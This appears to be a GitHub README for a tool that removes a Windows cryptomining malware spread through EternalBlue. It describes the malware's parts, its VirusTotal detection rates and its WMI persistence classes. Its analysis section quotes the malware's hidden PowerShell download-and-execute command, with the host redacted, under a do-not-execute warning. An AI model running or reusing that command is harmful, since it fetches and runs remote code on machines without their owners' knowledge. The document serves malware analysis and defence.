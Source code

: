 # AntiMining-info6

#### By Carlos Ramírez López

### ABOUT
Currently, cryptocurrency mining malware with file name info6.ps1 is being propagated for architecture (X64) and info3.ps1 for architecture (x86) in Windows. This malware is divided into four parts:
1- Performance modification in the computer equipment to "high performance" through the Windows registry.
2- Mining of cryptocurrencies, increasing CPU processing between 70% and 100%.
3- Persistence in infected computers, modifications of Windows variable classes.
4- Propagation through the network taking advantage of the Eternalblue vulnerability in the SMB port 445 of shared folders, scanning the red segment of the computer equipment.

In the page www.virustotal.com, 16 of 59 antivirus detect the files info6.ps1 and info3.ps1 on February 12, 2018 as a malware, however, once the code has been executed on your computer, only 1 of 59 antivirus I detect it, but without creating a solution on the affected computers.
![alt tag](https://github.com/BillyV4/AntiMining-info6/blob/master/Screenshot/Virus_Total1.jpg)
![alt tag](https://github.com/BillyV4/AntiMining-info6/blob/master/Screenshot/Virus_Total2.jpg)


### ANALYSIS
The malware is downloaded from different IP addresses by means of the script identifying the type of architecture:
#### DO NOT EXECUTE THE FALLOWING COMMAND

```
cmd /c powershell.exe -NoP -NonI -W Hidden "if((Get-WmiObject Win32_OperatingSystem).osarchitecture.contains('64')){IEX(New-Object Net.WebClient).DownloadString('http://IP /info6.ps1')}else{IEX(New-Object Net.WebClient).DownloadString('http://IP/info3.ps1')}"
```
#### The malware creates persistence stored in classes:
```
__FilterToConsumerBinding
CommandLineEventConsumer
__EventFilter –filter
```
